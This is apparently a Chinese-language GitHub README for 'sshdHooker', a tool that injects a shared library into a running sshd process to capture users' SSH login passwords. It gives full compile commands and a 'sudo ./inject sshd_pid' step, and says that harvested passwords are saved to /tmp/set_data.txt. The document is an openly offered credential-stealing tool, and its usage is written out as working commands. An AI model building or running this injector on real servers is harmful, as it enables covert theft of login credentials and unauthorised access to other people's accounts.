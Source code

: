 # what's this?

注入SSHD之后就能记录下密码或者做其他操作。

# how to use
指行
```
gcc -shared inject_got.c -ldl -fPIC -o test2.so

mv test2.so /tmp/hello.so

gcc sshdHooker.c utils.c shellcode.s -no-pie -g -o inject -ldl -lpthread

sudo ./inject sshd_pid
```

然后等待用户连接SSH并且登录成功，密码保存于/tmp/set_data.txt

# todo

 - 增加x86/arm支持
 - 自定义so路径
